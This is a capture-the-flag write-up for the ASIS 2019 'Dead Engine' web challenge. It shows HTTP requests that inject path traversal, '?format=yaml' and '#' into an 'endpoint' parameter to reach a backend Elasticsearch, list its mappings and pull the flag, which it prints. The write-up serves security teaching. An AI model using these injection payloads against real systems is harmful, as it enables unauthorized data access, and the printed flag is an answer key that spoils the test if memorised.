






# ASIS CTF quals - 2019

## Dead Engine - 112 / Web

> Description:
>
> Have you ever thought, what would you have done if you had access to all the data stored on the Google database?
>
> Please don't scan the server! It won't help you.

### Solution

By [@Cyku](https://github.com/cykutw)

This challenge has only one simple web page. Looks like:


When you type something into the input box, it would perform a AJAX request to `/?action`. 

AJAX request:
```
POST /?action HTTP/1.1
Host: 192.241.183.207
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Connection: close
Content-Length: 19

q=a&endpoint=search
```


We fuzzed the parameter `endpoint` and found some strange messages.
```
POST /?action HTTP/1.1
Host: 192.241.183.207
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Connection: close
Content-Length: 21

q=a&endpoint=./search
```


According to this message, we can guess that the backend is an `Elastic Search` service. This AJAX api would directly show the response from `Elastic Search` if `json_decode` failed.

And then we found that we can even inject `?`, `#` to the search API of Elastic Search. Use `?format=yaml` to force the Elastic Search to return the yaml format instead of json, so `json_decode` always fails and show whole response from Elastic Search. Use `#` to hide other parameters on search API, make sure the search result is what we expected.
```
POST /?action HTTP/1.1
Host: 192.241.183.207
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Connection: close
Content-Length: 36

q=a&endpoint=./search?format=yaml%23
```


Elastic Search provides a API called `_mapping`. This API allows us to retrieve mapping definitions for an index.

We tried to get mappings of all indices and types, and found an index named `secr3td4ta` contains a type named `fl4g?`, looks like it should has the flag!
```
POST /?action HTTP/1.1
Host: 192.241.183.207
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Connection: close
Content-Length: 46

q=a&endpoint=/../../../_mapping?format=yaml%23
```


Last step, use search API to get flag.
```
POST /?action HTTP/1.1
Host: 192.241.183.207
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Connection: close
Content-Length: 66

q=a&endpoint=/../../../secr3td4ta/fl4g%253f/_search?format=yaml%23
```


`ASIS{2a6e210f10784c9a0197ba164b94f25d}`
